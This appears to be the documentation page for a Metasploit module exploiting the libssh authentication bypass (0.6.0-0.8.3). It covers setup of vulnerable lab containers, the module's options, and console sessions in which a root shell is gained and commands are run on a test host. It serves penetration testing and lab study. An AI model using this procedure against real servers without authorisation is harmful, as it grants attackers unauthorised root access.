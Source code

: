 ## Introduction

This module exploits an authentication bypass in libssh server code
where a `USERAUTH_SUCCESS` message is sent in place of the expected
`USERAUTH_REQUEST` message. libssh versions 0.6.0 through 0.7.5 and
0.8.0 through 0.8.3 are vulnerable.

Note that this module's success depends on whether the server code
can trigger the correct (`shell`/`exec`) callbacks despite only the state
machine's authenticated state being set.

Therefore, you may or may not get a shell if the server requires
additional code paths to be followed.

## Setup

### Docker (Vulhub)

A prebuilt [vulhub](https://github.com/vulhub/vulhub) target is available for testing. This target does _not_ work with the `Shell` action, only the `Execute` action. To test that scenario, use the `Docker (Custom)` steps below.

```
docker run -it -p 3333:22 vulhub/libssh:0.8.1
```

### Docker (Custom)

In an empty folder create a new `Dockerfile` with the below file contents. Note that this Dockerfile is based on [vulhub/libssh:0.8.1](https://github.com/vulhub/vulhub/tree/4b1954c5c95140d99a4b94a7005707dd041196f6/base/libssh/0.8.1) with changes to work with the `Shell` target:

```Dockerfile
FROM buildpack-deps:stable-scm

LABEL maintainer="phithon <root@leavesongs.com>"

COPY ssh_server_fork.patch /ssh_server_fork.patch

RUN set -ex \
    && BUILDDEP="gcc g++ make pkg-config cmake xz-utils patch" \
    && apt-get update \
    && apt-get install --no-install-recommends -y \
        ca-certificates \
        wget \
        libc6-dev \
        zlib1g-dev \
        libgcrypt20-dev \
        libgpg-error-dev \
        $BUILDDEP \
    && wget -qO- https://www.libssh.org/files/0.8/libssh-0.8.3.tar.xz \
        | xz -c -d | tar x -C /usr/src --strip-components=1 \
    && mkdir -p /usr/src/build \
    && patch /usr/src/examples/ssh_server_fork.c < /ssh_server_fork.patch \
    && cd /usr/src/build \
    && cmake \
        -DCMAKE_INSTALL_PREFIX=/usr \
        -DWITH_SERVER=ON \
        -DWITH_STATIC_LIB=ON \
        -DWITH_GSSAPI=ON \
        -DWITH_GCRYPT=ON \
        -DWITH_SFTP=ON \
        -DWITH_THREADS=ON \
        .. \
    && make && make install \
    && apt-get purge -y --auto-remove $BUILDDEP

RUN ssh-keygen -t ecdsa -m pem -f /etc/ssh/ssh_host_ecdsa_key -q -N "" \
    && ssh-keygen -t dsa -m pem -f /etc/ssh/ssh_host_dsa_key -q -N "" \
    && ssh-keygen -t rsa -m pem -b 2048 -f /etc/ssh/ssh_host_rsa_key -q -N ""

CMD /usr/src/build/examples/ssh_server_fork --hostkey=/etc/ssh/ssh_host_rsa_key --ecdsakey=/etc/ssh/ssh_host_ecdsa_key --dsakey=/etc/ssh/ssh_host_dsa_key --rsakey=/etc/ssh/ssh_host_rsa_key -p 22 0.0.0.0
```

Ensure the Metasploit patch is present in the same directory:

```
cp /path/to/metasploit-framework/external/source/libssh/ssh_server_fork.patch .
```

Expected directory structure:

```
Dockerfile
ssh_server_fork.patch
```

Build the image:

```
docker build -t libssh:vulnerable .
```

Create a new container available on port `2222`:

```
docker run -it -p 2222:22 libssh:vulnerable
```

### Host

1. `git clone git://git.libssh.org/projects/libssh.git`
2. `cd libssh` and `git checkout libssh-0.8.3`
3. `git apply -p1 /path/to/metasploit-framework/external/source/libssh/ssh_server_fork.patch`
4. Follow the steps in `INSTALL` to build libssh
5. Run `build/examples/ssh_server_fork` (I like to `strace` it)

## Actions

```
Name     Description
----     -----------
Execute  Execute a command
Shell    Spawn a shell
```

## Options

**CMD**

Set this to a command or shell you want to execute. An `exec` channel
request will be sent instead of a `shell` channel request.

**SPAWN_PTY**

Enable this if you would like a PTY. Some server implementations may
require this. Note that you WILL be logged in `utmp`, `wtmp`, and
`lastlog` in most cases.

**CHECK_BANNER**

This is a banner check for libssh. It's not sophisticated, and the
banner may be changed, but it may prevent false positives due to how the
OOB authentication packet always returns `true`.

## Usage

Positive testing against unpatched libssh 0.8.3:

```
msf > use auxiliary/scanner/ssh/libssh_auth_bypass
msf auxiliary(scanner/ssh/libssh_auth_bypass) > set rhosts 172.28.128.3
rhosts => 172.28.128.3
msf auxiliary(scanner/ssh/libssh_auth_bypass) > set rport 2222
rport => 2222
msf auxiliary(scanner/ssh/libssh_auth_bypass) > set spawn_pty true
spawn_pty => true
msf auxiliary(scanner/ssh/libssh_auth_bypass) > set verbose true
verbose => true
msf auxiliary(scanner/ssh/libssh_auth_bypass) > run

[*] 172.28.128.3:2222 - Attempting authentication bypass
[+] 172.28.128.3:2222 - SSH-2.0-libssh_0.8.3 appears to be unpatched
[*] Command shell session 1 opened (172.28.128.1:56981 -> 172.28.128.3:2222) at 2018-10-19 12:38:24 -0500
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/ssh/libssh_auth_bypass) > sessions -1
[*] Starting interaction with 1...

# id
id
uid=0(root) gid=0(root) groups=0(root)
# uname -a
uname -a
Linux ubuntu-xenial 4.4.0-134-generic #160-Ubuntu SMP Wed Aug 15 14:58:00 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
# tty
tty
/dev/pts/1
#
```

Positive testing of shell commands using the `Execute` action:

```
msf auxiliary(scanner/ssh/libssh_auth_bypass) > set action Execute
action => Execute
msf auxiliary(scanner/ssh/libssh_auth_bypass) > set cmd id; uname -a
cmd => id; uname -a
msf auxiliary(scanner/ssh/libssh_auth_bypass) > run

[*] 172.28.128.3:2222 - Attempting authentication bypass
[+] 172.28.128.3:2222 - SSH-2.0-libssh_0.8.3 appears to be unpatched
[*] 172.28.128.3:2222 - Executed: id; uname -a
uid=0(root) gid=0(root) groups=0(root)
Linux ubuntu-xenial 4.4.0-134-generic #160-Ubuntu SMP Wed Aug 15 14:58:00 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/ssh/libssh_auth_bypass) >
```

Negative testing against patched libssh 0.8.4:

```
msf auxiliary(scanner/ssh/libssh_auth_bypass) > run

[*] 172.28.128.3:2222 - Attempting authentication bypass
[-] 172.28.128.3:2222 - SSH-2.0-libssh_0.8.4 appears to be patched
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/ssh/libssh_auth_bypass) >
```

Negative testing against an insufficiently implemented libssh server:

```
msf auxiliary(scanner/ssh/libssh_auth_bypass) > run

[*] 172.28.128.3:2222 - Attempting authentication bypass
[+] 172.28.128.3:2222 - SSH-2.0-libssh_0.8.3 appears to be unpatched
[-] 172.28.128.3:2222 - Net::SSH::ChannelOpenFailed: Session channel open failed (1)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/ssh/libssh_auth_bypass) > run

[*] 172.28.128.3:2222 - Attempting authentication bypass
[+] 172.28.128.3:2222 - SSH-2.0-libssh_0.8.3 appears to be unpatched
[-] 172.28.128.3:2222 - Net::SSH::ChannelRequestFailed: Shell/exec channel request failed
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/ssh/libssh_auth_bypass) >
```

Negative testing against OpenSSH:

```
msf auxiliary(scanner/ssh/libssh_auth_bypass) > set rport 22
rport => 22
msf auxiliary(scanner/ssh/libssh_auth_bypass) > run

[*] 172.28.128.3:22 - Attempting authentication bypass
[-] 172.28.128.3:22 - SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.4 does not appear to be libssh
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/ssh/libssh_auth_bypass) >
```

Confirming auth is still normally present using the OpenSSH client:

```
wvu@kharak:~$ ssh -vp 2222 -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null myuser@172.28.128.3
[snip]
debug1: Authentications that can continue: password
debug1: Next authentication method: password
myuser@172.28.128.3's password: wrongpassword
debug1: Authentications that can continue: password
Permission denied, please try again.
myuser@172.28.128.3's password: mypassword
debug1: Authentication succeeded (password).
Authenticated to 172.28.128.3 ([172.28.128.3]:2222).
[snip]
#
```
